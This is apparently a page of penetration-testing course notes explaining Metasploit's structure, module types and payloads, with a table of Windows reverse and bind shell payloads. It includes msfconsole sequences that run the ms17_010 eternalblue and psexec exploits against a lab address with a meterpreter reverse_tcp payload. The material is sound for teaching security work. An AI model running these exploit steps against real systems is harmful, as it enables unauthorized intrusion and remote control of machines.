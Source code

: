 # Metasploit

{% hint style="warning" %}
Metasploit is a powerful automated tool we can use responsibly in order to get to our targets. It is important to understand its structure to use it to the fullest. I mean if it is automated and took off a "hard" part of our attack, we should at least know how to use it.
{% endhint %}

{% hint style="danger" %}
It is important to note that payloads and exploits HIGHLY depends on the target's environment, architecture. Etc since it is based on the return addresses of the functions and registers so at times we will be crafting our own.
{% endhint %}

## Architecture

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Documentation, data and lib

These are the base files for the Framework:

* Data and Lib are the functioning part of msfconsole interface.
* Documentation is pretty self explanatory.

## Modules

```bash
<No.> <type>/<os>/<service>/<name>
794   exploit/windows/ftp/scriptftp_list
```

* Type:
  * Auxiliary: Scanning, fuzzing...etc
  * Encoders: Encoding the payloads.
  * Exploits:
  * NOPs: No Operation Code, padding for the payload.
  * Payloads:
  * Plugins:
  * Post: Post exploitation; pivoting deeper...etc

### Navigating in msfconsole modules

```bash
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
msf6 > use 0
msf6 exploit(windows/smb/ms17_010_psexec) > options
msf6 exploit(windows/smb/ms17_010_psexec) > info
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > setg RHOSTS 10.10.10.40 # Kepp it the same for all the next work.
msf6 exploit(windows/smb/ms17_010_psexec) > run
```

## Targets

Simply the targets available for a specific selected exploit. Potentially victims.

```bash
msf6 > show targets
[-] No exploit module selected.
msf6 exploit(windows/smb/ms17_010_psexec) > show targets
msf6 exploit(windows/browser/ie_execcommand_uaf) > set target 6
```

## Payloads

The code that gets executed to exploit a certain vulnerability. The exists three types of payloads in metasploit:

* Singles: <mark style="color:purple;">windows/shell\_bind\_tcp</mark>, it contains the entire shellcode for the selected task, so they're more stable than the staged ones since they are AIO which makes them heavier than other types of payloads.
* Stagers: windows/shell/<mark style="color:purple;">bind\_tcp</mark>, These work alongside stages, they are waiting on the attacker's machine to establish a connection to the victim host once the stage completes its task on the target. Small in size.
  * Faces a huge issue when dealing with NX bits and DEP measures.
  * Stagers that are NX-aware are bigger in size.&#x20;
* Stages: windows/<mark style="color:purple;">shell</mark>/bind\_tcp, payload components that are loaded by the loader.

### Staged Payloads

As mentioned earlier, they're an exploitation process that is decomposed and modularized to help in the segmentation of the exploitation in action to be less detectable and picked by AV or IPS. If all the stages work with no issues, the attacker will gain his beloved remote access.

The <mark style="color:red;">**meterpreter payload**</mark> for example uses DLL injection in order to ensure a communication with the target. Once we successfully infect the target, we see a meterpreter interface that looks like the msfconsole except that the commands that we will be executing are aimed at the target.

### Searching, Selecting and using payloads

```

msf6 > select <exploit>

# Help of grep in identifying the desired payload:
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter show payloads
...
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep -c meterpreter show payloads 
...
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads
...

# Setting the payload:
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads
...
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload <Number Of Payload>
...

# After setting a payload we'll have to setup the options
msf6 exploit(**windows/smb/ms17_010_eternalblue**) > ifconfig
...
msf6 exploit(**windows/smb/ms17_010_eternalblue**) > set LHOST <our-ip>
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS <target-ip>
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
...
meterpreter > help
...

```

| <mark style="color:yellow;">**Payload**</mark> | <mark style="color:yellow;">Description</mark>                         |
| ---------------------------------------------- | ---------------------------------------------------------------------- |
| `generic/custom`                               | Generic listener, multi-use                                            |
| `generic/shell_bind_tcp`                       | Generic listener, multi-use, normal shell, TCP connection binding      |
| `generic/shell_reverse_tcp`                    | Generic listener, multi-use, normal shell, reverse TCP connection      |
| `windows/x64/exec`                             | Executes an arbitrary command (Windows x64)                            |
| `windows/x64/loadlibrary`                      | Loads an arbitrary x64 library path                                    |
| `windows/x64/messagebox`                       | Spawns a dialog via MessageBox using a customizable title, text & icon |
| `windows/x64/shell_reverse_tcp`                | Normal shell, single payload, reverse TCP connection                   |
| `windows/x64/shell/reverse_tcp`                | Normal shell, stager + stage, reverse TCP connection                   |
| `windows/x64/shell/bind_ipv6_tcp`              | Normal shell, stager + stage, IPv6 Bind TCP stager                     |
| `windows/x64/meterpreter/$`                    | Meterpreter payload + varieties above                                  |
| `windows/x64/powershell/$`                     | Interactive PowerShell sessions + varieties above                      |
| `windows/x64/vncinject/$`                      | VNC Server (Reflective Injection) + varieties above                    |

> Other critical payloads that are heavily used by penetration testers during security assessments are Empire and Cobalt Strike payloads. These are not in the scope of this course, but feel free to research them in our free time as they can provide a significant amount of insight into how professional penetration testers perform their assessments on high-value targets.

